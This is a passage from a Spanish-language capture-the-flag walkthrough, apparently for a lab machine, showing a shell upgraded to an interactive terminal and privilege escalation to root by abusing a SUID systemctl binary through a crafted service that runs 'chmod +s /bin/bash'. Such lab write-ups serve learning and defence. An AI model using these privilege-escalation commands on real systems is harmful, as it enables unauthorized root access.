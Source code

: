 	script /dev/null -c bash
	
Ponemos en background la shell con CTRL+Z y escribimos el comando:

	stty raw -echo;fg
	
Luego escribimos:
	
	reset
	
En tipo de terminal ponemos:

	xterm
	
Por último, seteamos las variables de entorno necesarias:

	export TERM=xterm
	export SHELL=bash
	
Y listo, con esto ya tenemos una shell completamente interactiva.

![17]

Ahora, lo primero es obtener la flag de usuario, la cual se encuentra en el directorio del usuario **bill**.

![18]

Para escalar privilegios, primero enumeramos el sistema en busca de vulnerabilidades. Primero se intentó buscar comandos **sudo**, pero por desgracia, requerimos la contraseña del usuario para efectuar dicho comando, la cual desconocemos:

![18]

Buscamos ahora por **binarios SUID**, y nos encontramos con lo siguiente:

![19]

# Abuso del binario systemctl con SUID
El binario **systemctl** nos permitiría escalar privilegios dependiendo de cómo enfoquemos el ataque. **GTFObins** nos da instrucciones sobre cómo emplear este binario, pero yo prefiero la explicación de esta [página web](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740).

Básicamente, requerimos crear un nuevo servicio que tenga la siguiente estructura:

![20]

Donde en la sección **ExecStart** colocaremos el comando que queremos que el usuario privilegiado ejecute por nosotros. Puede ser una reverse shell, pero en mi caso, volveré SUID al binario /bin/bash para acceder directamente desde la máquina como **root**:

	chmod +s /bin/bash
	
Ahora, solo debemos ejecutar los siguientes comandos en Linux:

	/bin/systemctl enable /dev/shm/root.service
	/bin/systemctl start root
	